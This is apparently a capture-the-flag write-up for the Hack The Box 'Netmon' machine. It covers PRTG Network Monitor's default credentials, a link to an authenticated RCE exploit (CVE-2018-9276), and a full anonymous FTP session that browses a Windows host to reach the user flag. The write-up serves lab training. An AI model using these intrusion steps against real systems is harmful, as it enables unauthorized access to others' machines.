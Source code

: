 From googling around this is some sort of **net**work **mon**itor that can be operated completely via AJAX-based web gui. Also accoridng to google the default credentials are **username:** `prtgadmin` and **password:** `prtgadmin`. I did not have any success with default credentials.  

I did find a Remote Code Execution exploit in looking up for any vulnerabilities associated with PRTG - [CVE-2018-9276](https://www.exploit-db.com/exploits/46527), however it does require credentials. My guess is we will need to find those first before we can proceed further.
  
`root@apollo:~/htb/Netmon# curl -i 10.10.10.152/robots.txt` was fruitless as well. We should enumerate further. 

### User Flag  

So outside of the gui on **80**, what other ports did we have open? **21**, **139**, **445**, **135**. 

In taking a look at my nmap results, I initially overlooked a pretty easy exploit - if you would even call it that: Anonymous FTP login.

```console
root@apollo:~/htb/netmon# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Administrator
550 Access is denied. 
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
```